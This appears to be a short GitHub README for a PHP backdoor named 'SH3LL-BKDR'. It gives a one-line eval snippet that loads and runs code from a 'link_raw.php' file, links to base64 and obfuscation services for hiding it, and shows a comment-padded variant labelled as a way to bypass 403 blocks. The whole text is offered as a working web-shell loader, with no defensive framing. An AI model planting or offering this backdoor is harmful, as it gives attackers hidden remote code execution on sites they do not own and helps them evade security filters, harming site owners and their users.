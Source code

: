 ## SH3LL-BKDR

### Usage
```
<?php eval("?>".file_get_contents("link_raw.php"));?>
```
### Encrypt
* [Base 64](http://phpencoder.atwebpages.com/index.php)
* [PHP Obfuscate](https://php-minify.com/php-obfuscator/)
### For bypass 403
```
<?=/****/@null; /********/ /*******/ /********/@eval/****/("?>".file_get_contents/*******/("link_raw.php"));/**/?>
```
